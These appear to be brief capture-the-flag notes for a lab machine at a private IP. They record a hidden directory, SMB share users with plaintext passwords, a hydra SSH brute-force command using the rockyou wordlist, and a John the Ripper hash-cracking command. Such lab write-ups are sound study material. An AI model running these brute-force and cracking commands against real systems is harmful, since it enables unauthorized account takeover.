 IP = http://10.10.55.189

Hidden Directory
/development

Found 2 Users in SMB share smb$IP from Nautilus smb.

User, password
jay, armando
kay, beeswax

hydra -l jan -P ~/Downloads/rockyou.txt ssh://10.10.55.189

sudo /opt/john/run/john --wordlist=/opt/rockyou.txt kay.hash

